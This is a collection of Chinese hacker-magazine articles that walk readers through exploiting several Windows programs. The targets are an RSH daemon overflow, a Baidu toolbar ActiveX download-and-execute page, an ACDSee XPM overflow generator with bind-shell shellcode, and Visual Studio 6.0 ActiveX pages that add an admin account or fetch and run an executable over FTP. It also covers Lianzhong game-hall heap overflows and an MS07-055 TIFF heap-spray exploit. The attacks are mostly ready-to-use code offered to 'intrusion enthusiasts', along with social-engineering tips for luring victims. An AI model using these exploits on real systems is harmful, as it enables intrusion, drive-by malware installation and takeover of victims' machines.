那么如何解决覆盖 EIP 后的跳转问题呢？办法总是有的，我想到两个办法。

一是把 EIP 覆盖为一个 `kernel32.dll` 中的 `JMP EBP` 指令地址，当时 EBP 离栈底还有 48 个字节，我们来个狠的，直接覆盖到 EBP 及 EBP 以下的 12 个字节，这 12 个字节覆盖为以下的指令机器码：

```asm
Mov EAX, EBP    // 8B C5
SUB EAX, 1000h  // 2D 00 10 00 00
JMP EAX         // FF E0
```

这样的话，相当于先让程序跳转到 EBP，然后执行上面的程序，这段程序的目的是再跳回去，也就是跳回到上面覆盖有 ShellCode 的地址。

然而这个办法最终没有行得通，原因是由于要覆盖到 EBP 的话，上面的 `buff` 字符串参数非常大，需要 4127 个字节，而 RSHD 源程序中只给出了 4096 的长度，多余的会舍掉，因此这个办法不能奏效。

二是根据当时的 ESI 是比较接近 ESP 的一个寄存器，而且在 ESP 之下一点。但是直接使用 `JMP ESI` 是不行的，因为 ESI 指向的指令恰好被修改了，发现直接 JMP 到 ESI 的后果是报内存访问错误，因为 ESI 指向的指令使用到了寄存器 EAX，需要 `DS:[EAX]`，而 EAX 此刻值为 0，`DS:[0]` 是无效的。不过还好，ESI 以下的指令是没有被“骚扰”到的。因此我想到，如果 `kernel32.dll` 中存在这样的一个特殊地址，其指向的指令和后续的指令可以先把 EAX 修改修改，然后再来个 `JMP/CALL ESI` 那就太爽了！

皇天不负苦心人啊，我快找死了才找到。找这样的地址的方法是：在 OllyDBG 中打开 `kernel32.dll`，然后按 `Ctrl+F` 找“JMP ESI”或者“CALL ESI”，然后看看这条指令前面有没有修改 EAX。最终我找到了这样一个地址 `0x7c831538`，完美地解决了上面的问题，其指向的指令如图 3 所示，相信大家一看就明白了。

### 漏洞利用——攻击

这个漏洞属于远程溢出类的漏洞，是最为珍贵的那种漏洞，能够用来实现远程直接攻击，不像木马什么的，背后戳人一刀。这个比较直接，攻击的对象就是那些使用了 Windows RSH daemon 1.7 的服务器。

攻击别人之前，我们先来攻击一下自己。文章前面提到了 Windows RSH daemon 1.7 的安装和配置，很简单，就一个命令：“`rshd -d -r`”。

找个安装了 GCC 的 Linux，把前面的攻击程序（杂志相关中的 `exp.c`）传到 Linux 上，用 GCC 编译生成可执行文件。

```bash
gcc exp.c -o exp.o
```

运行 `exp.o`，进行远程攻击，参数是要攻击的服务器的 IP 地址。

```bash
./exp.o 219.245.182.60
```

由于攻击程序使用的 ShellCode 是用来 bind 对方 9999 端口的，因此如果攻击成功的话，你会看到如图 4 所示的效果，表明入侵成功，之后你就可以连接 9999 端口了。


总之，这个漏洞的威胁还是比较大的，只要安装了 Windows RSH daemon 1.7 的服务器基本都无法逃脱。像这样的直接实现攻击的漏洞，在当前的网络环境下，已经是凤毛麟角了，既然现在有了一个，那就好好利用一下吧！

- 适合读者：入侵爱好者  
- 前置知识：无

## 百度超级搜霸
### 远程代码执行漏洞利用

文／图 人鱼姬


百度超级搜霸是一款免费的 IE 浏览器工具栏，无需登录百度网站就可以搜网页、搜歌曲、搜图片、搜新闻，无所不能！但这款工具最近却爆出了可以挂马的漏洞，下面我们就一起看看如何利用这个漏洞。

我个人认为，这个漏洞和前一阵子的 Web 迅雷漏洞有异曲同工之妙，都是因为程序员人为疏忽而为黑客提供了可以下载并执行木马的现成函数，而不是出了什么远程溢出漏洞。说明了原理，下面我们来实际验证一下。

##### 漏洞分析

漏洞存在于由 ActiveX 控件 `BaiduBar.dll` 导出的 `DloadDS()` 函数中，函数原型如下：

```c
Void DloadDS(bstrUrl,bstrName,iShow)
```

如果把 `bstrUrl` 设置成某个服务器上的 CAB 文件，`DloadDS()` 函数会尝试下载这个文件到 TEMP 目录并解压，然后执行其中的以 `bstrName` 命名的文件。根据漏洞发现者 cocoruder 的介绍，执行处的关键代码如下。

```asm
…（反汇编代码）…
push eax ; lpCommandLine
push esi ; lpApplicationName
call ds:CreateProcessA
```

此时，`lpCommandLine` 指向临时目录，由于之前没有任何有效的检查措施，因此攻击者可构造包含木马或者间谍程序的 CAB 文件，然后用 `DloadDS()` 函数下载并运行它。

##### 漏洞利用

这个漏洞针对的是比较新的 5.4.4 版本。我们首先要用 cab 文件封装器把木马打成 cab 包，cabarc 这个程序的用法如下：

```bash
CABARC [options] command cabfile [@listfiles] [dest_dir]
```

输入命令“`cabarc n muma.cab muma.exe`”即可将我们的木马打包，如图 1 所示，其中的 `muma.exe` 是木马，`muma.cab` 是将要生成的 cab 包。


之后将生成的 cab 包传到网上，我这里传到了 `http://192.168.58.1/` 处。关于利用代码，我修改了网上的代码，具体如下。

```html
<html>
<OBJECT ID="com" CLASSID="CLSID:3A7F05ED4-0426-454F-8013-C41E3596E9E9">
</OBJECT>
<script>
com.DloadDS("http://192.168.58.1/muma.cab", "muma.exe", 0);
</script>
</html>
```


其中的 http://192.168.58.1/muma.cab 是 cab 文件的地址，muma.exe 是解包生成的 exe 文件。

当含有上面代码的网页被打开的时候，木马就运行了，因为不是利用溢出，所以不会拖慢系统，也不会占用大量内存，如图2所示。

实际上，这种漏洞的出现是比较让人遗憾的，因为既不是溢出造成的，也不是用户的疏忽造成的，而是程序员在编写软件过程中为黑客白白提供了一个可以下载执行木马的函数。继 Web 迅雷之后，百度超级搜霸也出了同样的问题，这就要求程序员朋友们在编写软件时要多考虑一下安全的问题，培养安全意识。

图2


- 适合读者：入侵爱好者  
- 前置知识：无

#### ACDSee v9.0 XPM 文件溢出利用

文/图 半兽人

很多人看图都喜欢用 ACDSee，但是这个方便的看图软件现在也出现溢出漏洞了。漏洞是由于 ACDSee 的 ID_X.apl 插件在处理畸形 XPM 文件时存在栈缓冲区溢出，如果 XPM 文件的部分字符串大于 4096 字节的话，用户打开该文件就会触发溢出，导致执行任意指令。受影响的系统包括 ACDSee Pro 8.1 Build 99、ACDSee 9.0 Build 108 和 Photo Editor 4.0 Build 195。

大家最关心的一定是如何利用这个漏洞。首先，已经有高手写出了溢出 XPM 文件的生成器，但是网上只给出了源码，需要自己编译一下，不方便编译的朋友不用着急，我已经随文提供了编译好的程序。生成器的源码很简单，具体如下。它其实就是 XPM 文件头 + ShellCode 及相关指令 + XPM 文件尾。这里作者提供了两个可选的 ShellCode，一个是运行计算器，另一个是在本地 4444 端口捆绑 cmdshell。当然了，我们重点用的是第二个 ShellCode。

```c
#include "stdio.h"
#include "stdlib.h"
/* 这个shellcode的作用是运行计算器 */
/* win32_exec - EXITFUNC=process CMD=calc.exe ... */
unsigned char CalcShellcode[] =
"\x31\xc9\x83\xe9\xdd..."
"...";
"\x13\x1d\xf5\x2c\xc7\x0d..."
...
/* 这个shellcode的作用是在本地4444端口捆绑cmdshell */
/* win32_bind - EXITFUNC=seh LPORT=4444 Size=344 Encoder=PexFnstenvSub http://metasploit.com */
unsigned char BindShellcode[] =
"\x33\xc9\x83\xe9\xb0\xd9\xee\xd9\x74\x24\xf4\x5b\x81\x73\x13..."
...
"\x0f\x84\xae\x80\x8c\x7b\x78\x7f";
/* 这是XPM的文件头 */
char XPMHeaders[] =
"/* XPM */\r\n"
"static char *..."
...
int main(int argc, char* argv[])
{
    FILE* xpmfile;
    char evilbuff[6600];
    int offset=0;

    // 以下显示提示
    printf("[+] ACDSee v9.0 XPM File Buffer Overflow\n");
    printf("[+] Coded and discovered by Marsu...\n");

    if (argc!=3) {
        printf("[+] Usage: %s Mode <file.xpm>\n", argv[0]);
        printf("[+] Mode is 0 -> run calc.exe\n");
        printf("[+] 1 -> bind shell to port 4444\n");
        return 0;
    }

    // 构建XPM文件内容
    memset(evilbuff,'A',6600);
    memcpy(evilbuff, XPMHeaders, sizeof(XPMHeaders)-1);
    ...
    if (atoi(argv[1]))
        memcpy(evilbuff+0x11a0, CalcShellcode, strlen(CalcShellcode));
    else
        memcpy(evilbuff+0x11a0, BindShellcode, strlen(BindShellcode));

    // 这是XPM的文件尾
    memcpy(evilbuff+0x1916,"\x22\x0d\x0a\x29\x3b\x0d\x0a",7);

    if ((xpmfile=fopen(argv[2],"wb"))==0) {
        printf("[-] Unable to access file\n");
        return 0;
    }

    // 写入文件
    fwrite(evilbuff, 1, 6600, xpmfile);
    // 关闭文件
    fclose(xpmfile);
    printf("[+] Done. Have fun!\n");
    return 0;
}
```

打开 VC++，将以上代码编译生成可执行文件，然后在命令行下运行生成器，命令为：`XPM-overflow 参数 文件名`。其中，参数为 0 就是采用运行计算器的 ShellCode，参数为 1 就是采用在本地 4444 端口捆绑 cmdshell 的 ShellCode。我们运行“XPM-overflow 1 file.xpm”，就会在当前目录下生成 file.xpm 文件，如图1所示。


图1

对于生成的文件，我的卡巴斯基没有任何反应，想不到还是卡巴兔杀的，大小只有 7K。用记事本打开这个文件，就会看到事先构造的很多的“A”和 ShellCode，如图2所示。


图2

我的测试环境是 Windows XP SP2 Pro，ACDSee 版本为 9.0（build 108）。现在我们双击生成的 xpm 文件，不久之后，本地的 4444 端口就被打开了，如图3所示。注意看后台的 ACDSee，此时正处于假死状态。现在用 nc 连接一下，就可以拿到可爱的 cmdshell 了，如图4所示。

当然，对于喜欢高效率的朋友来说，还可以写一个 ShellCode 实现下载者功能，等到溢出之后也省去很多麻烦，直接就可以拿到肉鸡了。

#### 无处不在的社会工程学

在这个漏洞里，我们当然不能忽略运用社会工程学。给你的图片起个什么样的名字，才能让图片得到最广泛的传播？什么样的名字让人看了就忍不住点击？这是个有趣的问题，我在这里就恶搞一下，想了一些八卦名字，你看了是不是也想点击呢？如图5所示。最后在这里劝大家上网时要小心，千万不要受到诱惑就往陷阱里跳。


图3


图4


图5

- 适合读者：入侵爱好者  
- 前置知识：无

#### Microsoft Visual Studio 6.0 挂马漏洞


今天上网看到大名鼎鼎的 Microsoft Visual Studio 6.0 出了三个漏洞，想到自己也用了很久 Microsoft Visual Studio 6.0，就赶紧研究了一下，以下是我的测试结果：

### Filer.dll 中的 DOS 攻击

这个漏洞利用了 Microsoft Visual Studio\Vfp98\Tools\Filer 目录下的 Filer.dll 文件，它提供了一个没有用户接口的文本搜索引擎，这可以导致 DOS 攻击，测试代码如下。

```html
<object classid='clsid:03C25B12-2870-11D0-A458-00AA005FEFEE' id='test'>
</object>
<input language='VBScript' onclick='tryMe()' type='button' value='Click here to start the test!'>
<script language='vbscript'>
Sub tryMe()
  test.DoSearch 2147483647
End Sub
</script>
```


我壮着胆子测试了一下，内存瞬间被耗光了，我的电脑内存为 2G，如图1所示，威力还是不小的。

### VBTOVSI.DLL 中的覆盖文件攻击

Microsoft Visual Studio 6.0 VB To VSI Support Library 即 VBTOVSI.DLL 提供了 Load() 和 SaveAs() 方法，它可以先读取一个文件，再将这个文件另存为指定路径。

该漏洞的测试代码如下，实现的是将 cmd.exe 存为 system_.ini，当然也可以覆盖已存在的文件。遗憾的是，Load() 不能处理远程文件（如 http），这样的话，就不能实现下载者的功能了，仅仅能将本地的文件另存。

```html
<object classid='clsid:7EEA39E3-41D1-11D2-AB3B-00AA00BDD685' id='test'>
</object>
<input language='VBScript' onclick='tryMe()' type='button' value='Click here to start the test!'>
<script language='vbscript'>
Sub tryMe()
  test.Load "c:\windows\system32\cmd.exe"
  test.SaveAs "c:\windows\system_.ini"
  MsgBox "Exploit completed!"
End Sub
</script>
```

### PDWizard.ocx 的执行命令漏洞

如果说前两个漏洞还无关痛痒的话，这个就有点危险了。Microsoft Visual Studio 6.0 的 PDWizard.ocx 提供了可以直接运行程序的 StartProcess()，当然也可以加上运行参数。以下是我修改的测试代码（建一个管理员账户），效果如图2所示。

```vbscript
<object classid='clsid:0DDF3C0B-E692-11D1-AB06-00AA00BDD685' id='test'></object>
<script language='vbscript'>
Sub tryMe()
  test.StartProcess "c:\windows\system32\cmd.exe /c net user asd 111111 /add", "False"
  test.StartProcess "c:\windows\system32\cmd.exe /c net localgroup administrators asd /add", "False"
End Sub
tryMe()
</script>
```


图2

后来我又改成了通过 FTP 下载并执行的测试代码（加上延时是为了上一句运行完了再运行下一句），当然也可以用 tftp，只是我觉得 tftp 有时不太好用。

```vbscript
<object classid='clsid:0DDF3C0B-E692-11D1-AB06-00AA00BDD685' id='test'></object>
<script language='vbscript'>
Sub tryMe()
  test.StartProcess "c:\windows\system32\cmd.exe /c echo open 127.0.0.1>c:\1.txt", "False"
  yanshi()
  test.StartProcess "c:\windows\system32\cmd.exe /c echo renyuj>>c:\1.txt", "False"
  yanshi()
  test.StartProcess "c:\windows\system32\cmd.exe /c echo ...", "False"
  yanshi()
  test.StartProcess "c:\windows\system32\cmd.exe /c echo binary>>c:\1.txt", "False"
  yanshi()
  test.StartProcess "c:\windows\system32\cmd.exe /c echo get 1.exe>>c:\1.txt", "False"
  yanshi()
  test.StartProcess "c:\windows\system32\cmd.exe /c echo bye>>c:\1.txt", "False"
  yanshi()
  test.StartProcess "c:\windows\system32\ftp.exe -s:c:\1.txt", "False"
  yanshi()
  test.StartProcess "c:\1.exe", "False"
End Sub

Sub yanshi()
  Dim j
  For j = 1 To 50
  Next
End Sub

tryMe()
</script>
```

效果如图3所示，测试时我使用了 WinRAR 的安装文件来代替木马。


图3

最后我再提供一个 BAT 的穿墙下载者代码，可以在网页木马中用 echo 命令在远程主机里生成这个穿墙下载者，经过我测试，它确实是注入到了 IE 的进程里，完整代码请详见本期的杂志相关，我就不在这里粘贴了。关于这个漏洞的更完美的利用方法，还希望大家能够到黑防论坛多多讨论，继续挖掘。

#### Microsoft Visual Studio 6.0 挂马漏洞


- 适合读者：漏洞爱好者
- 前置知识：缓冲区溢出基本原理

#### 利用联众世界游戏大厅挂马


文／图 半兽人

前一阵子由于联众把加密之后的密码存储在注册表里，且加密算法比较简单，所以被高人找到了
解密算法并公开在网上，我觉得因为加密算法比较简单而造成用户密码被破解是个很遗憾的事，因为
这在一定程度上是可以避免的，至少不能让人很容易地就得到了加密算法。不过遗憾的是，联众最近
又连续爆出两个函数的溢出，可以用来挂马，下面我就来介绍一下。

### SetClientInfo() 函数溢出漏洞

联众世界游戏大厅所安装的 glitemflat.dll ActiveX 控件中 SetClientInfo() 函数存在堆溢出漏洞。如果用户受骗使用 IE 访问了恶意网页的话，就可以触发这个溢出，导致在用户系统上执行任意指令。以下是目前已公开的 POC 代码。

```html
<OBJECT id=target classid=clsid:7D425D4-E2FC-4A52-BDA9-B9DCAC5EF574></OBJECT>
<SCRIPT>
s="AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
target.SetClientInfo(1, s, 1)
</SCRIPT>
```

运行该 POC 后，用 OllyDBG 捕获异常为读取 [41414145] 无效地址导致访问异常，存在漏洞的部分代码如下。

```asm
033D9315  MOV EAX,DWORD PTR DS:[ESI+DC]
033D931B  TEST EAX,EAX
033D931D  JE SHORT 033D9353
033D931F  PUSH DWORD PTR DS:[EAX+4]
033D9322  CALL DWORD PTR DS:[<&USER32.IsWindow>]
```

此时的寄存器情况如下。

```asm
EAX 41414141
ECX 03442070
EDX 006900CD  ASCII "ox"
EBX 03442070
ESP 02B9FB2C
EBP 02B9FB48
ESI 03441FD0
EDI 0344210C
EIP 033D931F
```

其中的 EAX 为“AAAA”，导致可以控制 EAX 的值，但是到这里还无法控制指令流程走向，继续往下看代码。

```asm
033D9328  TEST EAX,EAX
033D932A  JE SHORT 033D933B
033D932C  MOV EAX,DWORD PTR DS:[ESI+DC]
033D9332  PUSH DWORD PTR DS:[EAX+4]
033D9335  CALL DWORD PTR DS:[<&USER32.DestroyWindow>]
033D933B  MOV ECX,DWORD PTR DS:[ESI+DC]
033D9341  TEST ECX,ECX
033D9343  JE SHORT 033D934C
033D9345  MOV EAX,DWORD PTR DS:[ECX]
033D9347  PUSH 1
033D9349  CALL DWORD PTR DS:[EAX+C]
```

从上面的代码流程分析可以看出，[ESI+DC] 释放的是一个对象指针，而且可被用户控制。

对象的结构大致为：

- +00h vmt_ptr
- +04h hWnd
- +08h ...

要想利用成功，我们必须得让 hWnd 的地址可读，且读出的 hWnd 为无效的窗口句柄，才可控制流程到 0x033D933B，然后使得 vmt_ptr 指向的地址偏移 0x0C 处的地址指向 ShellCode，而这些条件在 IE 中很容易得到满足。

本文中我用于测试漏洞的是联众的最新版本 2.7.0.8。基于上面的分析，我编写了一个利用工具，用法很简单，就是“SetClientInfo.exe [URL]”，如图1所示，然后会在当前目录下生成网马，打开测试一下，结果如图2所示，成功调用了用于测试的 putty.exe 程序。不过令人遗憾的是，此漏洞成功挂马后会导致 IE 崩溃。


图1


图2

## SetInfo() 函数溢出漏洞

此漏洞的出现，是由于联众的程序员过于信任用户输入，未检测用户提供的字符串长度，导致对象虚函数表指针被覆盖，从而获得系统控制权。下面我们进行一下简单分析。

IE 先创建 obj_vuln 对象，我们捕获的代码如下。

```asm
03803034  /$ 56            PUSH ESI
03803035  |. 8BF1          MOV ESI,ECX
03803037  |. 6A 58         PUSH 58
03803039  |. 8366 10 00    AND DWORD PTR DS:[ESI+10],0
0380303D  |. 8366 14 00    AND DWORD PTR DS:[ESI+14],0
03803041  |. 8366 18 00    AND DWORD PTR DS:[ESI+18],0
03803045  |. C706 C4048103 MOV DWORD PTR DS:[ESI],038104C4
0380304B  |. E8 2C370000   CALL 0380677C
...
03803061  |> 6A 08         PUSH 8
03803063  |. 8946 08       MOV DWORD PTR DS:[ESI+8],EAX
```

obj_vuln ==> [ESI+8]，记住这个，后面要用到。然后程序进入 SetInfo() 流程。

```asm
03802F25  |> 56            PUSH ESI
; /EvilString <== 嘿嘿！
03802F26  |. 8B45 08       MOV EAX,DWORD PTR SS:[EBP+8]
03802F29  |. FF75 0C       PUSH DWORD PTR SS:[EBP+C]
03802F2C  |. 8D48 14       LEA ECX,DWORD PTR DS:[EAX+14]
03802F2F  |. FF75 20       PUSH DWORD PTR SS:[EBP+20]
03802F32  |. FF75 1C       PUSH DWORD PTR SS:[EBP+1C]
03802F35  |. FF75 18       PUSH DWORD PTR SS:[EBP+18]
03802F38  |. FF75 10       PUSH DWORD PTR SS:[EBP+10]
03802F3B  |. FF75 F8       PUSH DWORD PTR SS:[EBP-8]
03802F3E  |. FF75 F4       PUSH DWORD PTR SS:[EBP-C]
03802F41  |. E8 7E010000   CALL 038030C4
```

我们 F7 跟进 SetInfo()，会发现程序将 EvilString 填充到了 obj_now 的里面。

```asm
038030C4  /$ 55            PUSH EBP
038030C5  |. 8BEC          MOV EBP,ESP
038030C7  |. 56            PUSH ESI
038030C8  |. 8BF1          MOV ESI,ECX
038030CA  |. FF75 10       PUSH DWORD PTR SS:[EBP+10]
038030CD  |. B9 90568103   MOV ECX,03815690
038030D2  |. FF75 0C       PUSH DWORD PTR SS:[EBP+C]
038030D5  |. FF75 08       PUSH DWORD PTR SS:[EBP+8]
038030D8  |. E8 DB040000   CALL 038035B8
038030DD  |. FF75 20       PUSH DWORD PTR SS:[EBP+20]
038030E0  |. 8D46 1C       LEA EAX,DWORD PTR DS:[ESI+1C]
038030E3  |. 50            PUSH EAX
038030E4  |. E8 37350000   CALL 03806620
038030E9  |. FF75 24       PUSH DWORD PTR SS:[EBP+24]
; EvilString
038030EC  |. 8D46 3C       LEA EAX,DWORD PTR DS:[ESI+3C]
038030EF  |. 50            PUSH EAX
038030F0  |. E8 2B350000   CALL 03806620
```

```asm
[ESI+8]
; ECX = obj_vuln
038030A5  |. C706 C4048103 MOV DWORD PTR DS:[ESI],038104C4
038030AB  |. 85C9          TEST ECX,ECX
038030AD  |. 74 06         JE SHORT 038030B5
038030AF  |. 8B01          MOV EAX,DWORD PTR DS:[ECX]
038030B1  |. 6A 01         PUSH 1
038030B3  |. FF10          CALL DWORD PTR DS:[EAX]
038030B5  |. 8B4E 0C       MOV ECX,DWORD PTR DS:[ESI+C]
038030B8  |. 5E            POP ESI
038030B9  |. 85C9          TEST ECX,ECX
038030BB  |. 74 06         JE SHORT 038030C3
038030BD  |. 8B01          MOV EAX,DWORD PTR DS:[ECX]
038030BF  |. 6A 01         PUSH 1
038030C1  |. FF10          CALL DWORD PTR DS:[EAX]
038030C3  |. C3            RETN
```

执行完 SetInfo() 后，我们再看看堆中的情况。

```text
$    ==> 03823D80 038104C4 ??
obj_now 的开头
$+4   03823D84 03823D68 h=?
$+8   03823D88 03823DE0 ??
$+C   03823D8C 03823E48 H>?
...
$+3C  03823DBC 41414141 AAAA
; EvilString 开头
$+40  03823DC0 41414141 AAAA
$+44  03823DC4 41414141 AAAA
$+48  03823DC8 41414141 AAAA
...
$+60  03823DE0 0D0D0D0D ...
; obj_vuln 的 vmt_ptr 被覆盖
```

当程序第 2 次调用 SetInfo 的时候，IE 会先执行 obj_vuln 里的函数，但是 obj_vuln 里的 vmt_ptr 已经被我们控制了。

```asm
0380309F  |. 56            PUSH ESI
038030A0  |. 8BF1          MOV ESI,ECX
038030A2  |. 8B4E 08       MOV ECX,DWORD PTR DS:[ESI+8]
```

根据上面对漏洞的分析，我同样写了一个利用工具，用法同上，如图3所示。测试一下生成的网马，如图4所示，基本不卡不弹，算是一个不错的挂马漏洞了。


图3


图4

至此，关于联众的两个挂马漏洞就分析测试完毕了。对此感兴趣的读者，可以依据我上面的分析，自己编写一个更好用的挂马器，同时也可以对此漏洞有一个更深入的了解，因为我们不仅要知其然，还要知其所以然。最后希望国内的程序员在编写软件时能够多多注意安全性，中国的网络安全事业任重而道远。

适合读者：漏洞爱好者，溢出爱好者  
前置知识：缓冲区溢出基本原理

## 揭密 MS07-055

### TIFF 图像文件处理栈溢出漏洞

文/图：彭逸辉（shineast | http://zhn.baidu.com/shineastdh）


TIFF（Tag Image File Format）是 Mac 中广泛使用的图像格式，它由 Aldus 和微软联合开发，最初是出于跨平台存储扫描图像的需要而设计的。它的特点是图像格式复杂、存贮信息丰富。正因为它存储的图像细微层次的信息非常多，图像的质量也得以提高，故而非常有利于原稿的复制。该格式有压缩和非压缩二种形式，其中压缩可采用 LZW 无损压缩方案存储，不过由于 TIFF 格式结构较为复杂、兼容性较差，因此有时你的软件可能不能正确识别 TIFF 文件（现在绝大部分软件都已解决了这个问题）。目前在 Mac 和 PC 机上移植 TIFF 文件也十分便捷，因而 TIFF 现在也是计算机上使用最广泛的图像文件格式之一。

2007年10月9日，微软网站公布了“Microsoft 安全公告 MS07-055：严重 Kod ak 图像查看器中的漏洞可能允许远程执行代码（923810）”这个安全公告，并提供了该漏洞的补丁程序。此漏洞仅存在于运行 Windows 2000 的系统上。但是，如果是从 Windows 2000 升级的、运行受支持版本的 Windows XP 和 Windows Server 2003 也可能受影响。10月29日和11月11日，milw0rm 上公布了利用这个漏洞的两个程序，一个是利用 explorer 溢出的，另一个是利用 IE 溢出的，可以做网络木马。同时绿盟的网站上也发布了紧急通告——“绿盟科技紧急通告（Alert2007-10）”。攻击者可以通过构建特制图像来利用此漏洞，如果用户访问网站、查看特制电子邮件或者打开电子邮件附件，该漏洞可能允许远程执行指令。成功利用此漏洞的攻击者可以完全控制受影响的系统。应该说，这个漏洞的危害性还是很大的，属于“严重”“紧急”级别的漏洞。

另外，同一时间，除了 MS07-055，微软还公布了 MS07-056 到 MS07-060。这些安全公告分别描述了8个安全问题，分别是有关各版本的 Microsoft Windows、IE、Outlook Express、Windows Mail 和 SharePoint 等产品和服务中的漏洞。

### 漏洞重现与漏洞分析

要分析这个漏洞，一定要能够重现这个漏洞，然后通过跟踪和调试来分析它。如果你的 Windows XP 系统不是从 Windows 2000 升级过来的，最好安装一个虚拟机，虚拟一个 Windows 2000 操作系统，然后在这个系统下做漏洞重现。我在 VMware 中安装的是 Windows 2000 SP3，当然 SP4 也可以，只要是 2000 系统都可以，因为这个漏洞是新出的。如果你的 2000 系统已对这个漏洞（MS07-055）打了漏洞补丁（KB923810），可以先把漏洞补丁在“添加删除程序”中卸载掉，做完实验后再安装上。另外还要安装一下 ActivePerl，用来运行 Perl 程序代码，把这些准备工作做好后，我们就可以开始漏洞重现了。

milw0rm 上关于这个漏洞公布了 2 个 exploit，我分析了一下，这两个 exploit 利用的漏洞是同一个，就是我们现在要分析的 TIFF 文件格式处理漏洞，但是它们的利用方式不同：一个是直接在 explorer 下就溢出，也就是说当你用 explorer 打开了畸形 TIFF 文件所在的目录时，漏洞就已经使 explorer 溢出了；另一个是可以用来做网络木马，也就是说，当你打开了远程 Web 服务器上的某个网页，而网页恰好打开了那个畸形 TIFF 文件，就会在本地触发 IE 栈溢出，从而执行任意代码，即 ShellCode。

我这里通过最新的网页木马方式的 exploit 来分析这个漏洞，最终让大家看到这个漏洞发生的根本原因。下面我们先来看看这个 exploit 是如何编写的。

```perl
#!/usr/bin/perl
# Microsoft Internet Explorer TIF/TIFF Code Execution (MS07-055)
# This exploit tested on:
# - Windows 2000 SP4 + IE5.01
# - Windows 2000 SP4 + IE5.5
# - Windows 2000 SP4 + IE6.0 SP1

# invokes calc.exe if successful
use strict;

# run calc.exe
my $shellcode =
"\xfc\xe8\x44\x00\x00\x00\x8b\x45\x3c\x8b\x7c\x05\x78\x01\xef\x8b".
"\x4f\x18\x8b\x5f\x20\x01\xeb\x49\x8b\x34\x8b\x01\xee\x31\xc0\x99".
...

# convert shellcode for javascript
if ((length($shellcode) / 2) == /^/) {
  $shellcode .= "\x00";
}
$shellcode =~ s/(..)/"%".unpack("H*", $2).unpack("H*", $1)/ge;

# write tiff file
open(FILE, ">ms07-055.tif");
binmode(FILE);
print FILE $tiff1;
print FILE $eip;
print FILE $data_0400;
print FILE $data_0400;
print FILE $data_0400;
print FILE $data_null;
print FILE $tiff2;
close(FILE);

# write html file
open(FILE, ">ms07-055.html");
print FILE <<HTML;
<html><head>
<title>Microsoft Internet Explorer TIF/TIFF Code Execution (MS07-055)</title>
<script language="JavaScript">
<!--
var memory = new Array();
function getSpraySlide(spraySlide, spraySlideSize){
  while (spraySlide.length*2<spraySlideSize){
    spraySlide += spraySlide;
  }
  spraySlide = spraySlide.substring(0,spraySlideSize/2);
  return spraySlide;
}
function makeSlide(){
...
```

```javascript
var heapSprayToAddress = 0x0c0c0c0c;
var payLoadCode = unescape("$shellcode");
var heapBlockSize = 0x400000;
var payLoadSize = payLoadCode.length * 2;
var spraySlideSize = heapBlockSize - (payLoadSize+0x38);
var spraySlide = unescape("%u0c0c%u0c0c");
spraySlide = getSpraySlide(spraySlide,spraySlideSize);
heapBlocks = (heapSprayToAddress - 0x400000)/heapBlockSize;
for (i=0;i<heapBlocks;i++) {
  memory[i] = spraySlide + payLoadCode;
}
return ();
makeSlide();
</script>
</head>
<body></body></html>
HTML
close(FILE);
```

看了这段 Perl 程序，大概知道是怎么回事了，其实就是用这段 Perl 程序写了两个文件，一个是特制的、畸形的 TIFF 文件，命名为“ms07-055.tif”；另一个是 HTML 文件，自然就是网页了。其中 HTML 文件很明白，这个网页用来打开前面那个 TIFF 文件，打开之前还在 0c0c0c0c 内存地址附近请求了连续的若干内存块，每个内存块中存放的是一片片 0c0c0c0c 指令，最后跟着的是 ShellCode。如此一来，一旦程序被溢出跳到 0c0c0c0c 地址即可执行我们预期的 ShellCode 了，这个逻辑就是 Heap Spray 技术。

理解了如何利用，现在我们的关键就是需要掌握一些 TIFF 图像文件格式规范，不需要很专业的掌握，只要对这种文件格式的基础知识有所了解就足够我们分析漏洞了。下面描述一下文件的基本规范，并给出图示说明。

- 1. **首部 Header**
  - 字节 0-1：字节序。`II`（4949H）表示小端；`MM`（4D4DH）表示大端。
  - 字节 2-3：TIFF 文件标识，通常为 42（十进制）。
  - 头部中包含指向图像文件目录 IFD（image file directory）的指针。
  - 每个 IFD 包含多个目录项 DE（directory entry），保存重要图像信息。

图1

制，同时要看前面的字节序，如果是小印第安，这里就写 2A00H，否则写 002AH。

字节 4－7：第一个图像文件目录（IFD）在文件中的偏移量（offset）。

### 2）图像文件目录（IFD）

每一个图像文件目录（IFD）中首先有两个字节表示目录条目（DE）的个数，接着连续的每 12 个字节是一个目录条目，每个 IFD 最后 4 个字节表示的是下一个 IFD 的偏移量，如果没有后继 IFD 的话，就用一个 4 字节数字 0 来结尾。

### 3）目录条目（DE）

- 字节 0－1：本域的标记（Tag）；
- 字节 2－3：本域类型（Type）；
- 字节 4－7：值的个数；
- 字节 8－11：具体的值，或者是一串多个值存储于文件的偏移量。

- 1=BYTE：8 位无符号整数
- 2=ASCII：8 位，其中前 7 位表示一个 ASCII 码，最后一位必须是 NUL（二进制的 0）；
- 3=SHORT：16 位无符号整数
- 4=LONG：32 位无符号整数
- 5=RATIONAL：两个 LONG，第一个表示分子，第二个表示分母。

有了以上的基本文件格式规范知识后，我们就可以开始研究上面的 Perl 代码生成的 ms07-055.tif 文件了。首先我们来看看文件头部的 8 个字节，具体如下：

```text
00000000h: 49 49 2A 00 90 3E 00 00 80 3F E0 50 38 24 ...
```

根据上面的知识很容易知道其中的含义，“49 49”表示小印第安字节序；“2A 00”是 TIFF 文件文件标识；“90 3E 00 00”表示该文件的第一个 IFD 在文件的 00003E90 偏移量处。

我们下一步很自然地要到 00003E90 偏移量处去解析第一个 IFD，可见该文件中只有这样一个 IFD。

```text
00003e90h: 0F 00 FE 00 04 00 01 00 00 00 ...
00003ea0h: 03 00 01 00 00 80 02 00 ...
00003eb0h: ...
00003ec0h: ...
00003ed0h: ...
00003ee0h: ...
00003ef0h: ...
00003f00h: ...
00003f10h: ...
00003f20h: ...
00003f30h: ...
00003f40h: ...
```

其中起始的“0F 00”表示这个 IFD 中有 15 个 DE，每个 DE 含有 12 个字节，我在上面把它们隔开了。为了让大家对这个 15 个 DE 有更清楚的了解，我把它们按照含义列成了一个表，如表 1 所示。

